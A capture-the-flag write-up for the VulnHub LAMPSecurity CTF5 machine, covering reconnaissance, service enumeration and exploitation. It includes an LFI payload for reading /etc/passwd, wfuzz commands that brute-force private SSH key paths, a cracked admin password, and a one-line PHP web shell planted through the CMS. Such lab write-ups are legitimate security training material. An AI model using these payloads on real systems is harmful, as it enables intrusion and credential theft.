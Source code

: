 Security: CTF5

[Machine](https://www.vulnhub.com/entry/lampsecurity-ctf5,84/ "https://www.vulnhub.com/entry/lampsecurity-ctf5,84/")

## Reconnaissance

### nmap

* ssh
* smtp
* 80 - httpd
* pop3
* rpcbind
* 139, 445 - netbios 
* imap
* 901 - http Samba Admin Server
* mysql
* 40050 - unknown

### Vulnerable versions

* [ ] ssh
* [ ] smtp
* [ ] 80 httpd
  ??? pop3
* [ ] rpcbind
* [ ] netbios
  ??? imap
  ??? 901
* [ ] mysql
  ??? 40050

### smtp

```bash
nc -vn 192.168.88.220 25
HELO x
MAIL FROM:test@test.com
RCPT TO:root
```
Cause nmap `smtp-enum-users` script didn't work.

### http 80

#### main page

Nothing.

#### Blog

* Nano CMS.
* Admin login.
* user: andy

#### /mail

* SquirrelMail version 1.4.11-1.fc8.
* Login form.

#### Contacts

* Form.

#### Events

* Login form.
* users: patrick, jennifer

#### dirb

* nothing interesting.

#### nikto

* phpMyAdmin 3.1.4

#### /events/robots.txt

A lot of urls.

### pop3

With `pop3-capabilities` nmap script:
* pop3-capabilities: UIDL USER LOGIN-DELAY(180) STLS TOP

### smb

With `smbmap`:
* home
* IPC$
* Samba Server Version 3.0.26a-6.fc8.
* no access.
* nmap gave a [result](enum/smb/enum.nmap)

My attemts with `smbclient --no-pass //192.168.88.220/` or `smbclient -N -L //192.168.88.220/` were useless.

## Thread modeling

1. Search public exploits on new-found services.

2. Search for File Inclusion.

3. Attempt to inject SQL code.

4. brute-force ssh with hydra based on the found users.

## Vulnerabilities analysis

1. Didn't find usefull cve...But I searched again and found! NanoCMS has a [vulnerability](https://www.securityfocus.com/bid/34508/exploit "https://www.securityfocus.com/bid/34508/exploit").

2. Found LFI at `/index.php?page=../../../../../../etc/passwd%00`.

3. `/list` has response with error on `' test`.

4. Nothing.

## Exploitation

### LFI

I wanted to use wfuzz and brute-force all useful files:
```bash
wfuzz -c -w /usr/share/wordlists/lfi_linux.txt --hs "Warning" http://192.168.88.220/index.php?page=../../../../../../FUZZ%00 > wfuzz.txt
```

Brute-force `.ssh` and `id_rsa` key, but nothing:
```
wfuzz -c -w ../enum/creds/users.txt --hs "Warning" http://192.168.88.220/index.php?page=../../../../../../home/FUZZ/.ssh/id_rsa%00 > ssh_keys.txt 
```

I tried all cases and files...OKAY, I can't exploit it. Too heavy. You can find exploit on this case with usage of `phpinfo.php`, but I'll try it later...

### Use /~andy/data/pagesdata.txt

Found hash of the password. Crach with [this](https://crackstation.net/ "https://crackstation.net/").
admin: shannon

Next step - try to get RCE.

#### RCE

Go to `New page` and create a file with content:
```php
<?php system($_GET['cmd']); ?>
```

Then, you'll try to get a reverse shell, but nothing.
